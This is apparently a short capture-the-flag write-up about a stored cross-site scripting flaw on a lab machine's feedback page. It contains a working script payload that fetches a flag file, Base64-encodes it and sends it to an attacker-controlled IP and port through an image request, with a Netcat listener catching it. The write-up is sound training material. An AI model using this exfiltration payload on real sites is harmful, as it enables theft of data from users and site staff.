




- The task is to read content of the  `http://10.10.217.192:8080/flag.txt`

- When I try to access this directory, I see the following:


- After examining a standard URL and the "Feedback" subsite, I notice a potential XSS vulnerability.
  
- It seems that comments are reviewed manually, possibly due to weak security policies.
After setting up a Netcat listener and posting a comment like:`
  fetch('/flag.txt')
    .then(r => r.text())
    .then(d => {
      const base64 = btoa(d); // Kodowanie Base64
      const img = document.createElement('img');
      img.src = `http://10.14.88.168:1234/${base64}`;
      document.body.appendChild(img);
    })
    .catch(e => {});
</script>
```
Thanks to this, I obtained the flag encoded in Base64.

Then decoded it  



